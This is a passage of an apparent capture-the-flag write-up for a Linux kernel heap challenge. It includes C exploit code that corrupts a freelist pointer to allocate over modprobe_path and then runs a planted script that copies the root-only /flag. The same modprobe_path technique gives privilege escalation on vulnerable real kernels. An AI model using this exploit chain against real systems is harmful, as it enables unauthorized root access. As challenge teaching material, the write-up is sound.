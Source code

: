 Then we can overwrite fd to get an allocation on `modprobe_path` and overwrite `modprobe_path` to do modprobe_path exploit.

```c
void prepare_modprobe_path_exploit() {
  system("echo -ne '#!/bin/sh\n/bin/cp /flag /home/user/flag\n/bin/chmod "
         "777 /home/user/flag' > /home/user/modprobe");
  system("chmod +x /home/user/modprobe");
  system("echo -ne '\\xff\\xff\\xff\\xff' > /home/user/dummy");
  system("chmod +x /home/user/dummy");
}

int main(int argc, char *argv[]) {
...
  prepare_modprobe_path_exploit();
...
  del(idx);

  // overwrite fd to modprobe_path
  memset(buffer, 0xec, sizeof(data_s));
  a64[8] = modprobe_path;
  add(buffer);
  add(buffer);

  // overwrite modprobe_path
  memset(buffer, 0, sizeof(data_s));
  strcpy(buffer, "/home/user/modprobe");
  add(buffer);

  // trigger modprobe_path
  system("/home/user/dummy");
  system("cat /home/user/flag");

  return 0;
}
```

The full exploit code can be found here, [https://gist.github.com/circleous/458f7c691b79dfbebc2930bff9d78353](https://gist.github.com/circleous/458f7c691b79dfbebc2930bff9d78353)
